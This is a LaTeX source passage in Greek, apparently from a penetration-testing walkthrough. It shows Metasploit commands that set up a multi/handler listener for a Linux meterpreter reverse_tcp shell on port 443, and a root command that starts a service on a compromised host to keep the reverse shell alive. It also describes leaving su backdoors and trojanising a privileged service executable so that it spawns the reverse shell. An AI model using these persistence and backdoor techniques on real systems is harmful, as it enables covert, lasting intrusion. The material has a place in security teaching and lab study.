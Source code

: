 \documentclass[12pt]{report}
\begin{document}
Θα ανοίξουμε τώρα σε ένα άλλο τοπικό \textlatin{shell} το \textlatin{msfconsole} και θα ενεργοποιήσουμε τον \textlatin{multi-handler} στη πόρτα 443.
\begin{scriptsize}
\begin{verbatim}
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.232.1
LHOST => 192.168.232.1
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit
\end{verbatim}
\end{scriptsize}
Επιστρέφουμε στο \textlatin{remote shell} και 'σηκώνουμε' το \textlatin{service}.
\begin{scriptsize}
\begin{verbatim}
nagiosrootsh-4.3# systemctl start multiple-user
\end{verbatim}
\end{scriptsize}
Μπορούμε τώρα να κλείσουμε το αρχικό \textlatin{remote shell}, καθώς έχουμε μόνιμο \textlatin{reverse meterpreter shell}...

Στις περισσότερες περιπτώσεις επιθυμούμε να αφήσουμε πίσω μας εναλλακτικές \textlatin{su backdoor}, σε περίπτωση που ανακαλυφθει το \textlatin{reverse shell} ή παίρνουμε πρόσβαση μόνο σε \textlatin{non-elevated shell}. Μπορούμε να το επιτύχουμε αυτό με τους παρακάτω τρόπους:

\paragraph{Ενσωμάτωση του \textlatin{reverse meterpreter shell} σε ένα εκτελέσιμο}
Στην περίπτωση αυτή χρησιμοποιούμε ένα υπάρχον \textlatin{service}, το οποίο τρέχει με αυξημένα δικαιώματα και τροποποιούμε το εκτελέσιμο, ώστε να δημιουργεί παράλληλα με τη λειτουργία του και ένα \textlatin{thread} ή \textlatin{process} για το \textlatin{reverse meterpreter shell}.
\end{document}
